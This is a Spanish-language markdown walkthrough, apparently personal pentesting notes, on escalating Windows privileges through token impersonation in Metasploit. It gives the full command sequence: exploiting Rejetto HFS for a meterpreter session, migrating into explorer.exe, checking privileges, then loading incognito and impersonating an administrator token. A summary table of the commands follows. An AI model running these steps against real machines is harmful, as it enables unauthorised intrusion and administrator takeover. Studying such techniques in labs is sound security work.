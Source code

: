 # Escalada de privilegios en Windows con suplantación de token (Impersonation) usando Metasploit

---

## Resumen
Este método permite escalar privilegios desde una sesión inicial limitada mediante la suplantación de un token delegado con privilegios más altos que ya existe en el sistema.  
Para ello se utiliza el módulo `incognito` de Metasploit y técnicas de token impersonation.

---

# Identificación de la posibilidad de suplantación de token

- La sesión inicial debe estar en un usuario perteneciente al grupo Administradores o con privilegios suficientes para suplantar tokens.
- Es necesario que haya un token válido en memoria que pertenezca a un administrador o a SYSTEM.
- Se comprueba mediante la enumeración de privilegios y la lista de tokens disponibles.

---

# Pasos completos

## 1. Conseguir una sesión inicial

Se utiliza un exploit para obtener una sesión de `meterpreter` en la máquina víctima.  
En este caso con el módulo `rejetto_hfs_exec`:

```
msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <IP_OBJETIVO>
exploit
```

Esto abrirá una sesión de `meterpreter` como usuario limitado.

---

## 2. Buscar el proceso `explorer.exe` y migrar

Para estabilizar la sesión y trabajar en un proceso confiable, se migra a `explorer.exe`.

```
ps | grep explorer
```

Identificar el PID y migrar:
```
migrate <PID_EXPLORER>
```

---

## 3. Enumerar privilegios

Verificar los privilegios actuales del usuario:
```
getprivs
```

Si se observan privilegios como `SeImpersonatePrivilege` o `SeAssignPrimaryTokenPrivilege`, el sistema probablemente permite la suplantación.

---

## 4. Cargar el módulo `incognito`

El módulo `incognito` permite listar y suplantar tokens en el sistema.

```
load incognito
```

---

## 5. Listar los tokens disponibles

Listar los tokens de usuario detectados en el sistema:
```
list_tokens -u
```

Si aparecen tokens como `BUILTIN\Administrators` o `DOMINIO\Administrator`, se puede intentar suplantarlos.

---

## 6. Suplantar el token

Elegir uno de los tokens administradores listados anteriormente y suplantarlo:
```
impersonate_token "<DOMINIO\Administrator>"
```

Si el comando tiene éxito, el usuario actual adoptará los privilegios del token suplantado.

---

## 7. Migrar a un proceso estable como `explorer.exe`

Para asegurar la sesión y mantener el estado, migrar de nuevo a `explorer.exe`:
```
ps | grep explorer
migrate <PID_EXPLORER>
```

En este punto la sesión debería tener privilegios elevados.

---

# Resumen de comandos

| Paso                                   | Comando / Acción                                   |
|---------------------------------------|---------------------------------------------------|
| Obtener sesión inicial               | `use rejetto_hfs_exec` → `set RHOSTS` → `exploit` |
| Buscar proceso `explorer.exe`        | `ps | grep explorer`                              |
| Migrar a `explorer.exe`              | `migrate <PID>`                                  |
| Ver privilegios                       | `getprivs`                                       |
| Cargar incognito                      | `load incognito`                                 |
| Listar tokens                         | `list_tokens -u`                                |
| Suplantar token                       | `impersonate_token "<DOMINIO\Administrator>"`   |
| Migrar de nuevo                       | `ps | grep explorer` → `migrate <PID>`          |

---

